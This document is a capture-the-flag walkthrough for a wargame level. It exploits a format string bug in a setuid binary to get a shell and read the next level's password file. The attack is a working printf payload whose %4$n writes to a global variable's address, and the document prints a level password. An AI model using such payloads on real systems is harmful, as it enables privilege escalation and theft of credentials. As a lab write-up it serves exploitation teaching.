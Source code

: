 # Level 3 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level3@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level3 users 5138 Mar  6  2016 level3
	```

3. **Test the binary**

	```bash
	./level3
	```

	It waits for input, echoes the input, and exits..


4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level3@<vm-ip>:/home/user/level3/level3 .
	```

5. **Test the binary**

	```bash
	./level3
	```

	It echoes back our input.

6. **Disassemble and inspect with Ghidra**

	The vulnarable part:

	```c
	if (m == 64) {
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
	```

7. **Check binary in GDB for variables**

	```bash
	gdb level3
	(gdb) info variables m
	```

	Output:

	```
	0x0804988c  m
	```

	This means `m` is a global variable at address `0x0804988c`.

8. **Find our argument position in the stack**

	```bash
	echo "AAAA %x %x %x %x" | ./level3
	```

	Output:

	```
	AAAA 200 b7fd1ac0 b7ff37d0 41414141
	```

	Our "AAAA" appears in the **4th** position on the stack.

9. **Build and run the payload**

	```bash
	(printf '\x8c\x98\x04\x08'; printf 'A%.0s' {1..60}; echo '%4$n'; cat) | ./level3
	```

	Output:

	```
	�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	Wait what?!
	```

10. **Confirm shell and escalate**

	```bash
	whoami
	```

	Output:

	```
	level4
	```

11. **Read the password**

	```bash
	cat /home/user/level4/.pass
	```

	Output:

	```
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```
